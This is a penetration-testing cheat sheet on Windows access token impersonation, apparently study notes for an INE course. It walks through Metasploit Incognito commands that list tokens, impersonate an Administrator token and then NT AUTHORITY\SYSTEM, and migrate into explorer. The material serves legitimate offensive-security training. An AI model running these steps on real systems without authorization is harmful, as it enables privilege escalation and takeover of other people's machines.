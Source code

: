 # Access Token Impersonation

* [Metasploit Incognito Module](#metasploit-incognito-module)
* [References](#references)

***********************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
***********************************************************************

* The following are the privileges that are required for a successful impersonation attack:

   * SeAssignPrimaryToken
      * This allows a user to impersonate tokens

    * SeCreateToken
       * This allows a user to create an arbitrary token with administrative privileges

    * SeImpersonatePrivilege
       * This allows a user to create a process under the security context of another user typically with administrative privileges

***********************************************************************

## Metasploit Incognito Module

Once initial meterpreter session is obtained, list user privileges:
```
getprivs
```
If SeImpersonatePrivilege is set:

```
load incognito
```
```
list_tokens -u
```
Copy name of Delegation Token then run:
```
impersonate_token "[TOKEN]"
```
Example:
```
impersonate_token "ATTACKDEFENSE\Administrator"
```
Confirm privileges:
```
getuid
```
Migrate to x64 process:
```
pgrep explorer
```
```
migrate [EXPLORER-PID]
```
Check privileges again:
```
getprivs
```
```
getuid
```
List Tokens again to escalate privileges further:
```
list_tokens -u
```
and impersonate the next token:
```
impersonate_token "NT AUTHORITY\SYSTEM"
```

***********************************************************************

### References
Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2
